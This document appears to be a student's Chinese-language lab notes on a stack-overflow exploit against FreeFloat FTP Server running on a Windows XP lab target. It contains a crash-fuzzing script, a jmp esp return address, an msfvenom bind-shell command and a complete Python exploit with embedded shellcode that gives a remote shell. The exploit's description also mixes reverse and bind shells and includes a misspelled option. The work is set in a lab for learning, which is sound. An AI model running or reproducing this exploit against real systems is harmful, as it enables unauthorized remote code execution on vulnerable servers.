 ```yaml
---
title: 实验八--栈溢出漏洞利用
category: 学习笔记
tags: 
  - 网络渗透测试技术
  - 栈溢出
published: 2023-12-07
permalink: /archives/pxbe1psj/
---
```

## 实验目的

1、掌握软件栈溢出漏洞的原理和如何利用漏洞

## 实验任务

1、对winxp靶机中的FreeFloat FTP Sever进行溢出漏洞测试

2、编写漏洞渗透程序

3、使用Metasploit来生成Shellcode

## 实验步骤

## 分析漏洞

在xp靶机上开启FTPServer

![实验八_image_1](./images/202312071129688.png)

在kali上连接ftp，直接输入aaa/aaa即可进行登录，可以登陆成功，即该服务器并没有对用户进行限制

![实验八_image_2](./images/202312071129132.png)

利用python生成一百个'a'登录，报错了

![实验八_image_3](./images/202312071129977.png)wireshark抓包得知，只发送出去了78个a

![实验八_image_4](./images/202312071130651.png)同时发送了100个a也没令软件崩溃，所以改用其他方法

### 使用脚本测试

python发包测试

```python
from pwn import *
p = remote("192.168.100.143", 21)
payload = 'A'*500
p.sendline(payload)
p.interactive()
```

![实验八_image_5](./images/202312071130617.png)
程序崩溃了
![实验八_image_6](./images/202312071130998.png)
此时eip指向了0x41414141，从发送的数据'A'的ascii码是0x41得知，USER输入点存在栈溢出漏洞
![实验八_image_7](./images/202312071130938.png)
进一步的验证分析就不进行了，网上有更详细的分析过程

## 漏洞利用

### 寻找jmp esp地址

![实验八_image_8](./images/202312071130653.png)

![实验八_image_9](./images/202312071130894.png)

![实验八_image_10](./images/202312071130878.png)

![实验八_image_11](./images/202312071130671.png)

![实验八_image_12](./images/202312071130922.png)

只有一个地址，那就用：77D4754A这个地址

### 生成shellcode

利用metasploit生成windows反弹shell的shellcode，排除坏数据’\x00\x0a\x0d’，以c语言格式输出，靶机IP：192.168.100.142

```bash
msfvenom -p windows/shell_bind_tcp LHOSTS=192.168.100.143 LPORT=4444 -b '\x00\x0a\x0d' -f c
```

![实验八_image_13](./images/202312071130078.png)
编写exp，这里使用的是python3的语法，在运行脚本前还需要安装pwntools
\x90为nop指令，起着类似滑板的作用

```python
from pwn import *
p = remote("192.168.100.143",21)
payload = b'A'*251
payload += p32(0x77D4754A)
payload += b'C'*8
payload += b'\x90'*20

shellcode = (
b"\xda\xcb\xd9\x74\x24\xf4\xb8\xcd\x8a\xb1\xec\x5a\x31\xc9"
b"\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\x8f\x99\x53\x19\xf3"
b"\x76\x11\xe2\x0b\x87\x76\x6a\xee\xb6\xb6\x08\x7b\xe8\x06"
b"\x5a\x29\x05\xec\x0e\xd9\x9e\x80\x86\xee\x17\x2e\xf1\xc1"
b"\xa8\x03\xc1\x40\x2b\x5e\x16\xa2\x12\x91\x6b\xa3\x53\xcc"
b"\x86\xf1\x0c\x9a\x35\xe5\x39\xd6\x85\x8e\x72\xf6\x8d\x73"
b"\xc2\xf9\xbc\x22\x58\xa0\x1e\xc5\x8d\xd8\x16\xdd\xd2\xe5"
b"\xe1\x56\x20\x91\xf3\xbe\x78\x5a\x5f\xff\xb4\xa9\xa1\x38"
b"\x72\x52\xd4\x30\x80\xef\xef\x87\xfa\x2b\x65\x13\x5c\xbf"
b"\xdd\xff\x5c\x6c\xbb\x74\x52\xd9\xcf\xd2\x77\xdc\x1c\x69"
b"\x83\x55\xa3\xbd\x05\x2d\x80\x19\x4d\xf5\xa9\x38\x2b\x58"
b"\xd5\x5a\x94\x05\x73\x11\x39\x51\x0e\x78\x56\x96\x23\x82"
b"\xa6\xb0\x34\xf1\x94\x1f\xef\x9d\x94\xe8\x29\x5a\xda\xc2"
b"\x8e\xf4\x25\xed\xee\xdd\xe1\xb9\xbe\x75\xc3\xc1\x54\x85"
b"\xec\x17\xc0\x8d\x4b\xc8\xf7\x70\x2b\xb8\xb7\xda\xc4\xd2"
b"\x37\x05\xf4\xdc\x9d\x2e\x9d\x20\x1e\x41\x02\xac\xf8\x0b"
b"\xaa\xf8\x53\xa3\x08\xdf\x6b\x54\x72\x35\xc4\xf2\x3b\x5f"
b"\xd3\xfd\xbb\x75\x73\x69\x30\x9a\x47\x88\x47\xb7\xef\xdd"
b"\xd0\x4d\x7e\xac\x41\x51\xab\x46\xe1\xc0\x30\x96\x6c\xf9"
b"\xee\xc1\x39\xcf\xe6\x87\xd7\x76\x51\xb5\x25\xee\x9a\x7d"
b"\xf2\xd3\x25\x7c\x77\x6f\x02\x6e\x41\x70\x0e\xda\x1d\x27"
b"\xd8\xb4\xdb\x91\xaa\x6e\xb2\x4e\x65\xe6\x43\xbd\xb6\x70"
b"\x4c\xe8\x40\x9c\xfd\x45\x15\xa3\x32\x02\x91\xdc\x2e\xb2"
b"\x5e\x37\xeb\xc2\x14\x15\x5a\x4b\xf1\xcc\xde\x16\x02\x3b"
b"\x1c\x2f\x81\xc9\xdd\xd4\x99\xb8\xd8\x91\x1d\x51\x91\x8a"
b"\xcb\x55\x06\xaa\xd9")

payload += shellcode
p.sendline(payload)
p.close()
```

运行脚本，并使用nc进行连接即可成功获得shell
![实验八_image_14](./images/202312071130455.png)

## 参考

- https://rj45mp.github.io/Freefloat-FTP-Server1-0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
- https://bbs.kanxue.com/thread-266641.htm
